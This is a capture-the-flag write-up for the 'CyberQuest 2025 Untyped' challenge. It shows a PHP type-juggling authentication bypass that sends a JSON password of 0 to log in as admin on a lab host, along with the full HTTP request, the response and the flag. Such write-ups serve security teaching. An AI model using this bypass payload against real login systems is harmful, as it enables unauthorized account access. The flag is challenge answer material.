

# CyberQuest 2025 - Untyped

## Description

Oh my.. I've lost my password to the administrator account. My boss will freak out if it turns out.

Hints:
* no need to brute-force
* don't try to guess the password

`cq25-challenge0[1-9]-b.cq.honeylab:48080`

## Metadata

- Filename: -
- Tags: `php`, `type juggling`

## Solution

We are presented with a login page.



The name of the challenge suggests some type confusion / type juggling vulnerability.

If we manipulate the `username` and `password` fields and try to send `0`, `1`, `true` and `false`, we can log in for example with the following payload:

```json
{"username":"admin","password":0}
```

```
POST /login.php HTTP/1.1
Host: 10.10.100.112:48080
Content-Length: 33
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.10.100.112:48080
Referer: http://10.10.100.112:48080/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"admin","password":0}
```

```
HTTP/1.1 200 OK
Date: Sat, 27 Sep 2025 11:07:21 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.0
Content-Length: 76
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"status":"success","message":"Login successful","flag":"CQ25{N0t_MY_TYP3}"}
```

Flag: `CQ25{N0t_MY_TYP3}`